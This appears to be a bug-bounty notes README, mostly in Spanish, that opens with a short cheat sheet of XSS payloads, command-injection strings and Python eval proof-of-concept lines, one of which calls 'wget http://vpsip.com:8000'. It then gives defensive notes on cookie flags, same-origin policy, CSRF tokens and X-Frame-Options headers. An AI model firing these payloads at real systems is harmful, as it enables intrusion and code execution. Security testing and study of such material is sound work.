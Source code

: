 # BugBounty_tips

#Xss
%u003Csvg onload=alert(1)> \
%u3008svg onload=alert(2)> \
%uFF1Csvg onload=alert(3)> \
=<img%20src=x%20onerror=alert('Welcome,%20v
q=<g><script>alert%28document.domain%29<%2Fscript>   
<img src=x onerror=console.log("XSS")>   
‘);</script><script>alert(1)</script>  
{{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,alert(1),a')}}

#Command Injection
url/cgi-bin/parameter=payload
payload 1 [PING]
|ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #' |ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #\" |ping -n 21 127.0.0.1 
payload 2 [Nslookup]
|nslookup -q=cname http://YOUR.burpcollaborator.net.&

POC Code: eval(compile(“””for x in range(1):\n import os\n os.popen(r’wget http://vpsip.com:8000').read()""",'','single'))

POC Code: eval%28compile%28%27for%20x%20in%20range%281%29%3A%0A%20import%20time%0A%20time.sleep%2820%29%27%2C%27a%27%2C%27single%27%29%29

  
cookie atributes
Las cookies son utilizadas a menudo en aplicaciones web para identificar a un usuario y su sesión
Creando
Set-Cookie: <nombre-cookie>=<valor-cookie>
Session
Expires
 
Securizar
Cookies Secure y HttpOnly
Secure es un parámetro para indicar que una cookie solo debería ser utilizada bajo un servidor seguro, tal como SSL
Previene la lectura y modificacion
Para prevenir ataques cross-site scripting (XSS (en-US)), las cookies HttpOnly son inaccesibles desde la API de Javascript Document.cookie; Solamente se envían al servidor. Por ejemplo, las cookies que persisten sesiones del lado del servidor no necesitan estar disponibles para JavaScript, por lo que debería establecerse el flag HttpOnly.

Alcance
Las directivas Domain y Path definen el alcance de la cookie: a qué URLs deberían enviarse las cookies.
Domain : especifica los hosts permitidos
Path   : espeficia directorios
Samesite
SameSite=Strict
Si una cookie same-site tiene este atributo, el navegador sólo enviará cookies si la solicitud se originó en el sitio web que estableció la cookie.y no hara en origenes distintos
Lax
Si el atributo se establece en Lax, las cookies same-site se retienen en (sub)peticiones cross-site, tales como llamadas para cargar imágenes o frames
Acceso desde JavaScript usando Document.cookie
También se pueden crear nuevas cookies via JavaScript usando la propiedad Document.cookie, y si el flag HttpOnly no está establecido

Tracking no legal  
HOW WORKS HTTPONLY
https://www.youtube.com/watch?v=d8liHExs5tc
https://www.youtube.com/watch?v=ZSUGfIy1ds8
https://www.youtube.com/watch?v=brNL_bvUCck


 
SameOriginPolicy Sop
https://developer.mozilla.org/es/docs/Web/Security/Same-origin_policy
Origen se refiere a si dos pagunas tienen el protocolo y el mismo puerto .
La política same-origin (mismo-origen) restringe cómo un documento o script cargado desde un origen puede interactuar con un recurso de otro origen. Es un mecanismo de seguridad crítico para aislar documentos potencialmente malicioso
Es impedir que dominios que no compartan el mismo host, puerto y protocolo sean capaces de acceder a la información de otro dominio

CSRF
Los endpoints GET no deben tener acciones de modificación, y si esto se necesita se debería requerir una petición POST. Además los endpoints POST no debería aceptar la intercambiabilidad de aceptar peticiones GET con parametros en query string
Un token CSRF debería ser incluido en cada elemento <form> mediante un input oculto. Este token debe ser único para cada usuario y almacenado (por ejemplo, en una cookie). De esta forma el servidor puede mirar si el valor requerido es enviado, y en cierto modo lo idea sería descartar la petición si el valor no concuerda con lo esperado.
Este método de protección recae en la imposibilidad de que un atacante pueda predecir este token autogenerado en cada inicio de sesión. Cabe aclarar que este token debería ser regenerado en cada inicio de sesión.
Al igual que con {{Glosario ("XSS")}}, el filtrado de entrada es importante.
Debería de existir siempre un requerimiento de confirmación para cualquier acción delicada,.
Las cookies empleadas en acciones delicadas deberían de tener una vida útil breve.

PREVENIR
https://www.youtube.com/watch?v=KvE3nifqELk
QUE LAS PETICIONES VENGAN DE SITIOS CONOCIDOS - ip - dominios 
POST - PETCIONES ASINCRONAS CON AJAX
HTTP_REFERER
mejor que lo anterior
HEAD
METER EL TOKEN EN HEAD EN UNA COOKIE
  
X-Frame-Options
La página sólo puede ser mostrada en un marco del mismo origen que dicha página.
X-Frame-Options: DENY
La página no puede ser mostrada en un marco, independiente del sitio que esté intentándolo.
X-Frame-Options: SAMEORIGIN
La página sólo puede ser mostrada en un marco del mismo origen que dicha página.
X-Frame-Options: ALLOW-FROM https://example.com/
La página sólo puede ser mostrada en un marco del origen especificado.Tenga en cuenta que en Firefox esto todavía sufre del mismo problema que SAMEORIGIN
  
SOLUCIÓN
Apache
Header always append X-Frame-Options SAMEORIGIN
Header set X-Frame-Options DENY
Header set X-Frame-Options "ALLOW-FROM https://example.com/"
Nginx
add_header X-Frame-Options SAMEORIGIN;
IIS
<system.webServer>
   <httpProtocol>
    <customHeaders>
      <add name="X-Frame-Options" value="SAMEORIGIN" />
    </customHeaders>
  </httpProtocol>
</system.webServer>
  

  
  
  
  
 
  



